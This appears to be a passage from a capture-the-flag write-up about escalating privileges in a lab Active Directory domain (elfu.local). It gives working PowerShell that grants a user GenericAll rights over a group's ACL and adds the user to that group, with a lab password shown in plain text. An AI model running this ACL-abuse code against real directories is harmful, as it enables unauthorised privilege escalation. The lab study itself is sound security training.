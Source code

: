 
## Escalate

Using the information found in the previous section as well as the code snippets provided by Chris Davis, let's add our unprivileged user account to the `Research Department` group.

```
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "etucdegcur"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (
	New-Object System.Security.Principal.NTAccount("elfu.local\$username")).
    Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
	$IdentityReference,
	([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"),
	([System.Security.AccessControl.AccessControlType] "Allow"),
	$propGUID, $inheritanceType, $nullGUID
	)
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,dc=local"
$username = "etucdegcur"
$password = "Bjfawoxod#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, 
    $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid = $user.Translate([System.Security.Principal.SecurityIdentifier])
$b = New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID = [BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Verify that we are in the group now...

```
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access

Alternatively
Get-ADPrincipalGroupMembership etucdegcur | select name
```
